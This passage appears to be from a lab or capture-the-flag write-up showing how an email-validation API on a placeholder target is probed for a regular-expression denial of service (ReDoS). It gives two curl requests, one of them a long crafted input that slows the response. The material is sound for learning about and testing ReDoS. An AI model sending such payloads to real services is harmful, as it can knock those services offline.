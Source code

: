 ```sh
$ curl "http://<TARGET IP>:3000/api/check-email?email=test_value"
{"regex":"/^([a-zA-Z0-9_.-])+@(([a-zA-Z0-9-])+.)+([a-zA-Z0-9]{2,4})+$/","success":false}
```

```sh
$ curl "http://<TARGET IP>:3000/api/check-email?email=jjjjjjjjjjjjjjjjjjjjjjjjjjjj@ccccccccccccccccccccccccccccc.55555555555555555555555555555555555555555555555555555555."
{"regex":"/^([a-zA-Z0-9_.-])+@(([a-zA-Z0-9-])+.)+([a-zA-Z0-9]{2,4})+$/","success":false}
```

You will notice that the API takes several seconds to respond and that longer payloads increase the evaluation time.

The difference in response time between the first cURL command above and the second is significant.
T
he API is undoubtedly vulnerable to ReDoS attacks.